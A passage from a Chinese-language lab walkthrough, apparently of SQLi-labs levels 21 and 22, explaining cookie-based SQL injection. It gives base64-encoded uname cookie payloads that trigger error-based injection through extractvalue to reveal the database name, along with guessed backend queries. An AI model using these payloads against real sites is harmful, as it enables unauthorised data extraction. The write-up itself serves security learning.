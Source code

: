 ```
select * from users where username='cookie的uname字段' limit 0,1;
```







#### 21.

此题和20题基本类似，同样都是cookie注入题。



区别在于：此题使用了base64编码。并且后端使用`'`单引号和`()`进行包裹。

> ps.base64的编码有多种算法，要找的话应该把cookie中加密的字符串。拿去解码的网站一个一个试，看解密再加密出来的字符串，是否和最初被加密过的字符串相同。



payload：

> cookie中：

```
uname=Jykgb3IgZXh0cmFjdHZhbHVlKDEsY29uY2F0KDB4N2UsKHNlbGVjdCBkYXRhYmFzZSgpKSkpICNr
```

> 报错注入，弹出database()。[解密网站](http://www.bejson.com/enc/base64/)







猜测后端sql语句：

```
select * from users where username=('cookie解码得到的数据') limit 0,1;
```

> 此处对cookie做了base64编码处理



此题教会我们：同种编码有不同的算法，base64都有这么多种，更别说md5什么的了。大致确认是一种编码了后，可以换不同的算法试试。



#### 22.	



此题和21题基本相同。21题是单引号`'`和`()`小括号包谷，此题则是使用`"`双引号进行包裹。都是cookie注入题。

> 都是base64编码，解码得网站也是[同一个](http://www.bejson.com/enc/base64/)



payload:

> 在cookie中

```
uname=IiBvciBleHRyYWN0dmFsdWUoMSxjb25jYXQoMHg3ZSwoc2VsZWN0IGRhdGFiYXNlKCkpKSkj
```


